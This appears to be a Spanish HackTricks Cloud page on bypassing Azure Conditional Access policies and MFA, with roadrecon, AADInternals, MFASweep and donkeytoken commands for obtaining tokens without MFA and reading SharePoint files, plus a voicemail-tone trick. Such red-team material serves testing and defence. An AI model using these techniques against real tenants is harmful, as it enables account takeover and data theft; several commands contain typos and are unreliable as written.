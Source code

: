 # Az - Políticas de Acceso Condicional / Bypass de MFA

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Información Básica

Las políticas de Acceso Condicional de Azure son reglas establecidas en Microsoft Azure para hacer cumplir controles de acceso a los servicios y aplicaciones de Azure basados en ciertas **condiciones**. Estas políticas ayudan a las organizaciones a asegurar sus recursos aplicando los controles de acceso adecuados en las circunstancias correctas.\
Las políticas de acceso condicional básicamente **definen** **Quién** puede acceder a **Qué** desde **Dónde** y **Cómo**.

Aquí tienes un par de ejemplos:

1. **Política de Riesgo de Inicio de Sesión**: Esta política podría configurarse para requerir autenticación multifactor (MFA) cuando se detecta un riesgo de inicio de sesión. Por ejemplo, si el comportamiento de inicio de sesión de un usuario es inusual en comparación con su patrón regular, como iniciar sesión desde un país diferente, el sistema puede solicitar una autenticación adicional.
2. **Política de Cumplimiento de Dispositivos**: Esta política puede restringir el acceso a los servicios de Azure solo a dispositivos que cumplan con los estándares de seguridad de la organización. Por ejemplo, el acceso solo podría permitirse desde dispositivos que tengan software antivirus actualizado o que estén ejecutando una cierta versión del sistema operativo.

## Bypass de Políticas de Acceso Condicional

Es posible que una política de acceso condicional esté **verificando alguna información que pueda ser fácilmente manipulada permitiendo un bypass de la política**. Y si, por ejemplo, la política estaba configurando MFA, el atacante podrá evadirla.

### Plataformas de Dispositivos - Condición del Dispositivo

Es posible establecer una condición basada en la **plataforma del dispositivo** (Android, iOS, Windows, macOS), sin embargo, esto se basa en el **user-agent** por lo que es bastante fácil de evadir. Incluso **haciendo que todas las opciones apliquen MFA**, si se utiliza un **user-agent que no reconoce**, se podrá evadir el MFA.

### Ubicaciones: Países, rangos de IP - Condición del Dispositivo

Por supuesto, si esto está configurado en la política condicional, un atacante podría simplemente usar una **VPN** en el **país permitido** o intentar encontrar una forma de acceder desde una **dirección IP permitida** para evadir estas condiciones.

### Aplicaciones de Cliente de Office365

Se podría indicar que si los clientes **acceden a las aplicaciones de Office 365 desde el navegador necesitan MFA**:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

Para evadir esto, es posible fingir que se inicia sesión en una aplicación desde una aplicación de escritorio (como en Microsoft Teams en el siguiente ejemplo) lo cual evadirá la protección:
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
Dado que la aplicación Microsoft Teams tiene muchos permisos, podrás utilizar ese acceso.

{% hint style="success" %}
Puedes encontrar la **ID de más aplicaciones públicas** con permisos predefinidos de Office365 en la base de datos de roadtools:

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Este ataque es especialmente interesante porque por defecto las aplicaciones públicas de Office365 tendrán permisos para acceder a algunos datos.

### Otras aplicaciones

Por defecto, otras aplicaciones creadas por los usuarios no tendrán permisos y podrían ser privadas.\
Sin embargo, los usuarios también podrían crear **aplicaciones públicas** otorgándoles algunos **permisos**.

Un escenario potencial donde se establece una política para **requerir MFA para acceder a una aplicación** cuando el usuario está utilizando un **navegador** (quizás porque es una aplicación web y por lo tanto será la única forma), si hay una **aplicación proxy** -una aplicación permitida para **interactuar con otras aplicaciones en nombre de los usuarios**-, el usuario podría **iniciar sesión en la aplicación proxy** y luego a través de esta aplicación proxy **iniciar sesión en la aplicación inicialmente protegida por MFA**.

Consulte las técnicas [**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) y [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken).

## Otros métodos de bypass de MFA de Az

### Tono de llamada

Una opción de Azure MFA es **recibir una llamada en el número de teléfono configurado** donde se pedirá al usuario que **envíe el carácter `#`**.

{% hint style="danger" %}
Dado que los caracteres son solo **tonos**, un atacante podría **comprometer** el mensaje de **buzón de voz** del número de teléfono, configurar como mensaje el **tono de `#`** y luego, al solicitar el MFA asegurarse de que el **teléfono de la víctima esté ocupado** (llamándolo) para que la llamada de Azure se redirija al buzón de voz.
{% endhint %}

### Dispositivos compatibles

Las políticas a menudo solicitan un dispositivo compatible o MFA, por lo que un **atacante podría registrar un dispositivo compatible**, obtener un token **PRT** y **burlar de esta manera el MFA**.

Comience registrando un **dispositivo compatible en Intune**, luego **obtenga el PRT** con:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
## Herramientas

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Obtener todas las políticas
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep es un script de PowerShell que intenta **iniciar sesión en varios servicios de Microsoft utilizando un conjunto de credenciales proporcionado y tratará de identificar si MFA está habilitado**. Dependiendo de cómo estén configuradas las políticas de acceso condicional y otros ajustes de autenticación multifactor, algunos protocolos pueden terminar quedando en un solo factor. También tiene una verificación adicional para configuraciones de ADFS y puede intentar iniciar sesión en el servidor ADFS local si se detecta.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token es un conjunto de funciones que tienen como objetivo ayudar a los consultores de seguridad que necesitan validar las Políticas de Acceso Condicional, pruebas para portales de Microsoft habilitados para 2FA, etc.
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Probar cada portal** si es posible **iniciar sesión sin MFA**:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Debido a que el **portal de Azure** no está restringido, es posible **recopilar un token desde el punto final del portal para acceder a cualquier servicio detectado** por la ejecución anterior. En este caso, se identificó Sharepoint y se solicita un token para acceder a él:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Suponiendo que el token tenga el permiso Sites.Read.All (de Sharepoint), incluso si no puedes acceder a Sharepoint desde la web debido a MFA, es posible usar el token para acceder a los archivos con el token generado:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## Referencias

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
